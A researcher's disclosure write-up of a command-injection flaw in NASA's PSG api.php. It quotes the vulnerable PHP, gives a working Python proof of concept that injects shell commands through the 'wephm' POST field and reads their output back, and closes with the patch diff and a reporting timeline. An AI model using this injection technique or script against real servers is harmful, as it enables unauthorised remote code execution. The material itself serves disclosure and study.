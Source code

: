 ```yaml
---
layout: post
title:  "NASA, Remote Code Excution (0-Day Exploit)"
date:   2022-02-19 12:32:45
description: The article is about 0-day, RCE vulnerability in NASA web service. we could analyze the code of service through the docker file > https://hub.docker.com/r/nasapsg/psg.
imgurl: https://i1.sndcdn.com/avatars-JUvAAPvAA86fmbVE-SH0i6g-t500x500.jpg
excerpt: The psg.gsfc.nasa.gov was very vulnerable to Remote Code Execution. I disclosed this vulnerability in late 2021, and it was patched within a few days
---
```

### Summary

The psg.gsfc.nasa.gov was very vulnerable to Remote Code Execution. I disclosed this vulnerability in late 2021, and it was patched within a few days

---
### Analysis

```plaintext
docker pull nasapsg/psg
docker run -it -p 3000:3000 nasapsg/psg /bin/sh
```
If you set as above, you can analyze the code.

```plaintext
https://psg.gsfc.nasa.gov/api.php
```
The Remote Code Execution vulnerability occurred in the above URL.

```php
// Define parameters of the run
$wgeo='y';$wephm='n';$watm='n';$whdr='y';$wgen='y';
if (isset($_POST['wgeo']))  $wgeo = $_POST['wgeo'];  else $wgeo = 'y';
if (isset($_POST['wephm'])) $wephm= $_POST['wephm']; else $wephm= 'n';
if (isset($_POST['watm']))  $watm = $_POST['watm'];  else $watm = 'n';
if (isset($_POST['whdr']))  $whdr = $_POST['whdr'];  else $whdr = 'y';
if (isset($_POST['type']))  $otyp = $_POST['type'];  else $otyp = 'rad';
if (isset($_POST['mode']))  $mode = $_POST['mode'];  else $mode = '';
if ($otyp=='set' || $otyp=='upd') exit();
if ($otyp=='cfg' || $otyp=='ret') {                      $wcon='n'; $wgas='n'; $wgen='n';}
if ($otyp=='str' || $otyp=='srf') {$wgeo='n'; $watm='n'; $wcon='y'; $wgas='n'; $wgen='n';}
if ($otyp=='tel') {                $wgeo='n'; $watm='n'; $wcon='n'; $wgas='n'; $wgen='y';}
if ($otyp=='trn' || $otyp=='atm') {                                            $wgen='n';}
if ($otyp=='opc') {                $wgeo='n'; $watm='n'; $wcon='n'; $wgas='y'; $wgen='n';}
if ($otyp=='mss') {                                                            $wgen='y';}

// /var/www/html/api.php
```
When I see the above code, get a value of parameter called wgeo, wephm, watm, whdr, type, mode and I can see that put in each variable.

```php
if (strlen($app)>0) {
  // Call the app
  $app = preg_replace('/[^a-z]/', '', htmlspecialchars(substr($app,0,10),ENT_QUOTES,'UTF-8'));
  system($bindir . $app . ' ' . $ID);
} else {
  // Call the modules
  if ($wgeo=='y' || $wephm!='n') system($bindir . 'geometry ' . $ID . ' ephm=' . $wephm . ' atm=' . $watm);   // Call the geometry module
  if ($watm=='y') system($bindir . 'atmosphere ' . $ID);   // Call the atmosphere model  if ($otyp=='ret') {
    exec($bindir . 'retrieve '  . $ID);                    // Call the retrieval module  } else if ($geo=='massspec' && $wgen=='y') {
      $otyp = 'mss';
      exec($bindir . 'mass '  . $ID);                      // Call the Mass-Spec module  } else {
    if ($wcon=='y') exec($bindir . 'continuum ' . $ID);    // Call the surfaces and transmittance module
    if ($wgas=='y' && $ast!='none') {                      // Call the atmospheric modules
      if ($ast=='coma') {
        exec($bindir . 'cem ' . $ID);                      // Call the cometary emission model
      } else  {
        exec($bindir . 'pumas ' . $ID);                    // Call the planetary radiative transfer module
      }
    }
    if ($wgen=='y') exec($bindir . 'generator ' . $ID);    // Call the flux integrator
  }
}
// /var/www/html/api.php
```
When I see code below, I can see the above code! In the here, When I see to use a system() function in first “if statement” of “else statement”.

In the here, The important information is values of $wephm and $watm variables are passed as the “argument” values of the system() function. This means that a Remote Code Execution attack can be performed by manipulating the variable.

But, I can’t see the result value of system() function because it execute on the server.

<style>
    .myvideo {
        width: auto;
        max-width: 100%;
        height: auto;
    }
</style>
<img src="https://github.com/blogpocas/DATA/blob/main/BB/Nasa/rce/system()/1.png?raw=true" class="myvideo">
Yeah~ They’re using the apache server.

<style>
    .myvideo {
        width: auto;
        max-width: 100%;
        height: auto;
    }
</style>
<img src="https://github.com/blogpocas/DATA/blob/main/BB/Nasa/rce/system()/c.png?raw=true" class="myvideo">
So I decided to create a file containing the return value of the shell command in the apache default path.

```php
$tfile = $_POST['file'];
if (substr($tfile,0,1)!='<') return 0;
$maxlines=2000; $lines[$maxlines]; $iline=0;
$indata=0; $ndat=0; $maxvals=50000; $lams[$maxvals]; $vals[$maxvals]; $evals[$maxvals]; $noise=0;
$b1 = strpos($tfile,'<BINARY>');
if ($b1!==FALSE) {
  $b2 = strpos($tfile,'</BINARY>'); if ($b2<=0) $b2=strlen($tfile);
  $bindata = substr($tfile, $b1+8, $b2-$b1-8);
  if ($bindata!==False) {
    $file = fopen($resdir . 'binaries/' . $ID . '_' . $binname . '.dat', 'w');
    fwrite($file, $bindata);
    fclose($file);
  }
  $tfile = substr($tfile,0,$b1) . substr($tfile,$b2+9,-1);
}
if ($add) $tfile = file_get_contents($resdir . $ID . '_cfg.txt') . $tfile;
$txts = explode(PHP_EOL, $tfile);
if (count($txts)<2) $txts = explode("\r", $tfile);
for ($i=0;$i<count($txts) && $iline<$maxlines && $ndat<$maxvals;$i++) {
  $txt = substr(trim($txts[$i]),0,30000);
  if (strncmp($txt,'<ATMOSPHERE-STRUCTURE>', 22)==0) $ast  = strtolower(substr($txt,22));
  if (strncmp($txt,'<GENERATOR-GAS-MODEL>',  21)==0) $wgas = strtolower(substr($txt,21));
  if (strncmp($txt,'<GENERATOR-CONT-MODEL>', 22)==0) $wcon = strtolower(substr($txt,22));
  if (strncmp($txt,'<GEOMETRY>', 10)==0)             $geo  = strtolower(substr($txt,10));
  if (strncmp($txt,'<DATA>', 6)==0) { $indata=1; continue; }
  if (strncmp($txt,'</DATA>',7)==0) { $indata=0; continue; }
  if ($indata) {
    $nv = sscanf($txt,'%e %e %e', $lam, $flux, $noise); if ($nv<2) continue;
    $lams[$ndat]=$lam;
    $vals[$ndat]=$flux;
    $evals[$ndat]=$noise;
    $ndat++;
  } else {
    if (strncmp($txt,'<',1)!=0) continue;
    $pky = strpos($txt,'>'); if ($pky===false) continue; if ($pky>=strlen($txt)-1) continue;
    $ky  = substr($txt,1,$pky-1);
    $val = substr($txt,$pky+1,strlen($txt)-$pky-1);
    $lines[$iline]='<' . $ky . '>' . $val . PHP_EOL;
    $iline++;
  }
}
if ($iline<=0) exit();
$file = fopen($resdir . $ID . '_cfg.txt', 'w');
for ($i=0;$i<$iline;$i++) fwrite($file, $lines[$i]);
fclose($file);
if ($ndat>0) {
  $file = fopen($resdir . $ID . '_dat.txt', 'w');
  if ($nv>2) for ($i=0;$i<$ndat;$i++) fprintf($file,"%e %e %e\n", $lams[$i], $vals[$i], $evals[$i]); else for ($i=0;$i<$ndat;$i++) fprintf($file,"%e %e\n", $lams[$i], $vals[$i]);
  fclose($file);
}
```
Additionally, before we exploit the above vulnerability, we should know one. If we send a request using the POST method, Server get the value of the file parameter and parse it into a file.

So, at first I passed the data containing random value to the file parameter, but it doesn’t seem to work. It seemed like I had to put the data the parser needed. So I decided to look for a sample file on the NASA site.

<style>
    .myvideo {
        width: auto;
        max-width: 100%;
        height: auto;
    }
</style>
<img src="https://github.com/blogpocas/DATA/blob/main/BB/Nasa/rce/system()/2.png?raw=true" class="myvideo">
I found this, The psg_cfg.txt file can be downloaded from the above URL.

```plaintext
<OBJECT>Exoplanet
<SURFACE-GAS-UNIT>ratio
<GENERATOR-INSTRUMENT>user
```
The value of psg_cfg.txt file are as above. I made some modifications to the file because the values are very long.

```python
import requests

url = "https://psg.gsfc.nasa.gov/api.php"
data = """<OBJECT>Exoplanet
<SURFACE-GAS-UNIT>ratio
<GENERATOR-INSTRUMENT>user """
while True:
    cmd = input(">> ")
    r = requests.post(url,data={"file":data,"wephm":"pocas;{}>graphs/e1xnup1r;echo x".format(cmd)})
    print(requests.get("https://psg.gsfc.nasa.gov/graphs/e1xnup1r").text)
```
The final poc is as above.

<style>
    .myvideo {
        width: auto;
        max-width: 100%;
        height: auto;
    }
</style>
<video class="myvideo" controls="" preload="">
    <source src="https://cdn.pocas.kr/Bug%20Bounty/Remote%20Code%20Execution%20in%20NASA%20(0-Day%20Exploit).mov" type="video/mp4">
</video>

Execute the PoC code and I saw Remote Code Execution happen!

This was a very interesting and amazing! It was a good analysis and experience for me 😉 Thanks for help from [@PewGrand](https://twitter.com/PewGrand), I learn a lot thanks to you!

And Next Day, When I woke up from sleep and checked the vulnerability, it was patched! But they didn’t contact me. So I found out on Twitter that NASA is not responding to the vulnerability. So, if someone just finds it, it is to report it for the purpose of public interest. 😢

```diff
  $wgeo='y';$wephm='n';$watm='n';$whdr='y';$wgen='y';
- if (isset($_POST['wgeo']))  $wgeo = $_POST['wgeo'];  else $wgeo = 'y';
- if (isset($_POST['wephm'])) $wephm= $_POST['wephm']; else $wephm= 'n';
- if (isset($_POST['watm']))  $watm = $_POST['watm'];  else $watm = 'n';
- if (isset($_POST['whdr']))  $whdr = $_POST['whdr'];  else $whdr = 'y';
- if (isset($_POST['type']))  $otyp = $_POST['type'];  else $otyp = 'rad';
- if (isset($_POST['mode']))  $mode = $_POST['mode'];  else $mode = '';
+ if (isset($_POST['wgeo']))  $wgeo = preg_replace('/[^a-z]/', '', substr($_POST['wgeo'],0,1));  else $wgeo = 'y';
+ if (isset($_POST['wephm'])) $wephm= preg_replace('/[^a-z]/', '', substr($_POST['wephm'],0,1)); else $wephm= 'n';
+ if (isset($_POST['watm']))  $watm = preg_replace('/[^a-z]/', '', substr($_POST['watm'],0,1));  else $watm = 'n';
+ if (isset($_POST['whdr']))  $whdr = preg_replace('/[^a-z]/', '', substr($_POST['whdr'],0,1));  else $whdr = 'y';
+ if (isset($_POST['mode']))  $mode = preg_replace('/[^a-z]/', '', substr($_POST['mode'],0,1));  else $mode = '';
  if ($otyp=='set' || $otyp=='upd') exit();
  if ($otyp=='cfg' || $otyp=='ret') {                      $wcon='n'; $wgas='n'; $wgen='n';}
  if ($otyp=='str' || $otyp=='srf') {$wgeo='n'; $watm='n'; $wcon='y'; $wgas='n'; $wgen='n';}
  if ($otyp=='tel') {                $wgeo='n'; $watm='n'; $wcon='n'; $wgas='n'; $wgen='y';}
# /var/www/html/api.php
```
This issue was fixed that add substr() function. So I thought I try bypass this. But I decided not to do after to see the patch code.  this is impossible to bypass.

---
### Reporting Timeline

- 2021-11-22 13h 03m : Reported this issue via the [soc@nasa.gov](mailto:soc@nasa.gov).
- 2021-11-23 ??h ??m : Patched this issue
- 2022-02-14 ??h ??m : Released a [docker file](https://hub.docker.com/r/nasapsg/psg)
